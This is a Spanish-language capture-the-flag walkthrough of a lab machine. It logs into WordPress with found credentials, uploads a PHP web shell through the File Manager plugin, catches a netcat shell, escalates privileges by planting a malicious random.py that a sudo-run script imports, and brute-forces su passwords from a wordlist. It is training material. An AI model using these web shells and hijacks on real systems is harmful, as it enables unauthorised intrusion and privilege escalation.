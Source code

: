 Por lo que finalmente sabemos que la contraseña del wordpress es "NoTeMetasConElGobierno" con usuario "Ariel"

Ya estando en wordpress, vamos a la seccion "añadir plguins", agregamos y activamos el plugin "File Manager". Ahora vamos a la nueva sección del plugin y creamos un ".php" con una reverse shell o que nos permita ejecutar comandos, en mi caso usé el siguiente:

```php
<?php
      system($_GET['cmd']);
?>
```

Ahora solo creamos un archivo en wp-content con nuestra reverse shell(o que nos permita ejecutar comandos) y listo, escuchamos con netcat usando `nc -nlvp 443` y finalmente estamos dentro.

## TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty hay que ejecutar los siguientes comandos:

```css
script /dev/null -c bash
(presionamos ctrl+z)
stty raw -echo; fg
	reset xterm
export TERM=xterm && export SHELL=bash
```

## ESCALADA DE PRIVILEGIOS

### www-data

Al ejecutar sudo -l vemos que podemos ejecutar un script de python como el usuario "ministroariel". Si revisamos el codigo, importa la biblioteca random, por lo que podriamos crear en la misma carpeta un archivo llamado random.py con lo siguiente:

```python
import os
os.system("/bin/bash")
```

lo que hará que cuando el script intente usar la biblioteca, primero usará nuestro "random.py" permitiendo que nos de una shell como "ministroariel"

### ministroariel

Siendo este usuario podriamos intentar ejecutar nuevamente `sudo -l`, pero nos pide contraseña. Al hacer un `ls -la` vemos un archivo llamado ".secreto" el cual parece ser una wordlist. Ahora usaremos el script [Linux-Su-Force](https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh) con los usuarios "vicepresidente" y "presidente".

Luego de esperar un gran rato nos encuentra lo siguiente: ![pass1](../../../maquina-corruptress/imagenes/contra.png)

por lo que ponemos `su vicepresidente` y ponemos la contraseña.

